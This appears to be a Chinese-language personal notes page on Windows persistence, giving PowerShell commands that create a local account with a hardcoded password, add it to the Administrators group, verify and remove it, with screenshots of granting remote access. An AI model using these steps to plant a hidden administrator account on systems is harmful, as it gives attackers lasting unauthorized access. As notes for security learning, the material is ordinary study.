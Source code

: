 ```yaml
---

---
```


# Windows 权限维持

## 添加用户

管理员模式启动 powershell

```powershell
# 新建一个名为 NewAdminUser 的本地标准用户(普通用户,无管理员权限)，密码为 Password123!
New-LocalUser -Name "NewAdminUser" -Password (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -FullName "New Admin User" -Description "New local admin account"
# 将用户添加到管理员组
Add-LocalGroupMember -Group "Administrators" -Member "NewAdminUser"
# 验证用户是否已被添加到管理员组
Get-LocalGroupMember -Group "Administrators"

# 删除用户
Remove-LocalUser -Name "NewAdminUser"
# 验证是否删除成功
Get-LocalUser
```

> 添加一个普通用户:
>
> ![image-20240918134940882](http://cdn.ayusummer233.top/DailyNotes/202409181356489.png)
>
> ---
>
> 添加一个管理员用户:
>
> ![image-20240918141158082](http://cdn.ayusummer233.top/DailyNotes/202409181412119.png)

添加远程访问权限:

![image-20240918135704959](http://cdn.ayusummer233.top/DailyNotes/202409181357858.png)

---



